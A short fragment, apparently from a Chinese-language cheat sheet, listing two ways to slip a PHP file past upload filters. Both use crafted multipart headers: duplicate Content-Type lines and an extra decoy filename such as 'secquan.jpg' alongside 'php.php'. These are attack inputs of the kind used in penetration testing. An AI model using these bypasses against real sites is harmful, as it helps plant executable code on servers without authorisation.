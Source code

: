 多个文件头

```
Content-Type: image/gif
Content-Disposition: form-data; name="file"; filename="php.php"
Content-Type: image/gif
```

插入额外的字符、filename

```
AAAAAAAA:filename="secquan.jpg";
Content-Disposition: form-data; name="file";  filename="php.php"
Content-Type: image/gif
```

